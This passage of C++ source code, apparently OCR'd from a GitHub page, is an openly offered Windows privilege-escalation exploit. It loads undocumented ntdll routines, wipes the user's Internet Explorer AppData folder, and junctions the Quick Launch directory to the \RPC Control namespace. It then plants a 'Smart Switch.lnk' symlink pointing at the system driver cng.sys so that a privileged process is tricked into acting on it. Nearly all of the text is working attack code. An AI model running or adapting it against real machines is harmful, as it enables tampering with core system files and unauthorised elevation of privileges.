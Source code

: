 ```cpp
		res = FindNextFile(hSrch, &wfd);
	}

	FindClose(hSrch);

	if (recur > 0) RemoveDirectory(TempPath);

	return 0;
}

void NtInit() {
	LoadLibrary(L"ntdll.dll");
	HMODULE hm = GetModuleHandle(L"ntdll.dll");
	_RtlInitUnicodeString = (ULONG(WINAPI*)(PUNICODE_STRING, PCWSTR))GetProcAddress(hm, "RtlInitUnicodeString");
	_RtlNtStatusToDosError = (ULONG(WINAPI*) (NTSTATUS Status))GetProcAddress(hm, "RtlNtStatusToDosError");
	_NtCreateSymbolicLinkObject = (NTSTATUS(WINAPI*)(
		OUT PHANDLE             pHandle,
		IN ACCESS_MASK          DesiredAccess,
		IN POBJECT_ATTRIBUTES   ObjectAttributes,
		IN PUNICODE_STRING      DestinationName))GetProcAddress(hm, "NtCreateSymbolicLinkObject");
	_NtCreateFile = (NTSTATUS(WINAPI*)(
		PHANDLE            FileHandle,
		ACCESS_MASK        DesiredAccess,
		POBJECT_ATTRIBUTES ObjectAttributes,
		PIO_STATUS_BLOCK   IoStatusBlock,
		PLARGE_INTEGER     AllocationSize,
		ULONG              FileAttributes,
		ULONG              ShareAccess,
		ULONG              CreateDisposition,
		ULONG              CreateOptions,
		PVOID              EaBuffer,
		ULONG              EaLength))GetProcAddress(hm, "NtCreateFile");
	_NtClose = (NTSTATUS(WINAPI*)(HANDLE Handle))GetProcAddress(hm, "NtClose");
}

int main() {
	NtInit();

	std::wstring UserProfilePath = std::wstring(_wgetenv(L"USERPROFILE"));

	std::wstring LinkFile = L"Smart Switch.lnk";
	std::wstring LinkDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Microsoft\\Internet Explorer\\Quick Launch");
	std::wstring TargetFile = L"C:\\Windows\\System32\\cng.sys";

	std::wstring RpcControl = L"\\RPC Control";
	std::wstring RpcControlFile = RpcControl + L"\\" + LinkFile;

	std::wstring ParentDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Microsoft\\Internet Explorer");
	if (GetFileAttributesW(ParentDirectory.c_str()) != INVALID_FILE_ATTRIBUTES) {
		DeleteAllFiles(ParentDirectory.c_str(), 1);
	}

	CreateDirectoryW(ParentDirectory.c_str(), NULL);

	if (!CreateMountPoint(LinkDirectory, RpcControl, L"Junction")) {
		std::cout << "[-] RPC Control Junction Failed" << std::endl;
		exit(0);
	}
	std::cout << "[+] RPC Control Junction Success" << std::endl;
```